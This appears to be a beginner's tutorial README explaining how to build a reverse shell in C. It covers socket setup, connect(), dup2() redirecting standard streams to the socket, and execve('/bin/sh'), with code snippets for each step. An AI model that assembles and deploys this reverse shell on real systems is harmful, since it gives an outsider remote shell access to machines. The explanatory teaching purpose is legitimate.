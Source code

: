 # Reverse Shell in C using socket()  

#### lil disclaimer

I'm new to C programming, and I've decided to share my learning progressing.  
Please be forgiving if there are mistakes, feel free to correct me to help me gain new knowledge.
(obviously for purprose only)  

## socket()

`socket()` is a syscall dependent on the `<sys/socket.h>` library. To understand its functioning, we need to understand the struct components that compose it.

## struct sockaddr_in  

```c
struct sockaddr_in server_addr;
```  

Defining the variable `server_addr` of type `struct sockaddr_in` serves to represent the server's address. Memory space is created to store this structure. Its fields can then be filled with specific address information for the server:

```c
struct sockaddr_in {
   uint8_t         sin_len;       // total length
   sa_family_t     sin_family;    // ip family (AF_INET)
   in_port_t       sin_port;      // port number
   struct in_addr  sin_addr;      // address
   unsigned char   sin_zero[8];   // reserved
```  

Here are all the variables defined within the struct `sockaddr_in`.  
We only use `sin_family`, `sin_port`, and `sin_addr`.  
The `sin_family` variable is set to `AF_INET` as a parameter to designate the type of address the socket will communicate with, which in this case is `IPv4`.  
The `sin_port` variable takes the port as a parameter, which is itself passed to the `htons()` function (host to network short). `htons()` converts an unsigned short integer from host byte order to network byte order (big-endian).  
Therefore, by using `AF_INET` for the `sin_family`, `sin_port` for the port, and `htons()` for converting the port to network byte order, we are configuring the server address to be an `IPv4` address with the specified port.

## inet_pton()  

```c
inet_pton(AF_INET, IP, &(server_addr.sin_addr));
```  

`inet_pton()` is used to convert an `IPv4` or `IPv6` address (in basic string format) into a binary representation used by sockets. It takes the `AF` (Address Family) as a parameter, converts the `IP` address (currently in string format), and stores it in the `sin_addr` variable of the `server_addr` struct.  

## connect()  

```c
connect(sockfd, (struct sockaddr *)&server_addr, sizeof(server_addr));
```  

`connect()` establishes a connection between the client socket (`sockfd`) and the server socket (`server_addr`).  
`(struct sockaddr *)&server_addr` converts the pointer `server_addr` into a pointer of type `struct sockaddr *`.  
We learn from the function prototype in its man page that `connect()` expects the second argument to be a pointer to `struct sockaddr`.  
`sizeof(server_addr)` specifies the size of the `server_addr` struct in bytes, allowing `connect()` to know the size of the structure to perform the connection.  

## dup2()  

```c
dup2(sockfd, 0);
dup2(sockfd, 1);
dup2(sockfd, 2);
```

`dup2()` duplicates an existing file descriptor to another file descriptor. It takes the parent file descriptor and the child file descriptor as arguments.  
`stdin` (0), `stdout` (1), and `stderr` (2) are redirected to the file descriptor of `sockfd`.  
In essence, any input retrieved from `stdin` will be read from the `socket`, and any output written to `stdout` and `stderr` will be sent to the server via the network connection.  

## execve()

```c
execve("/bin/sh", 0, 0);
```  

`execve()` is a syscall that allows executing a new program from a specified executable file (in this case, `/bin/sh`).  
From its man page, we learn that `execve()` takes the second argument as a char pointer to an array of arguments and the third argument as a char pointer to the environment in which the program is launched.  
Since those parameters are not used in our code snippet, they are defined as `0`.  
In this context, it executes the `/bin/sh` program, launching a shell process in the current execution environment.

## close()


```c
close(sockfd);
```
`close()` is used to close a file descriptor. Here, `close()` is called to release the allocated resources and terminate the network connection.    

## Resources
https://broux.developpez.com/articles/c/sockets/ (a complete french documentation)  
https://man.archlinux.org/man/  
https://man7.org/linux/man-pages/  
Special mention to @h0mbre ˚ʚ♡ɞ˚
